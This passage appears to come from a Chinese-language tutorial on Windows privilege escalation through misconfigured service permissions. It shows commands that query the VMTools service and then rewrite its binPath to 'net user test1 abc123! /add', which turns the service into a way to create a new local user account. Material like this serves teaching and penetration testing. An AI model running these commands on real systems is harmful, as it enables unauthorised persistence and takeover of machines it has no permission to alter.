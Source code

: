 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127104057.png-water_print](assets/1699411459-bf76ea4aee79f5870a1d7575ac23e855.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127104057.png-water_print")

-   查看该服务启动时的权限

`sc qc VMTools`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127104148.png-water_print](assets/1699411459-b48b696aff16da0aeb8c08e3ff3839ab.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127104148.png-water_print")

-   然后修改执行文件路径为我们想要执行的命令

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br># 注意这里的"="后面要留有空格<br>sc config VMTools binPath= "net user test1 abc123! /add"  <br><br># 查看查询该服务的执行路径是否修改成功<br>sc qc VMTools  <br>``` |
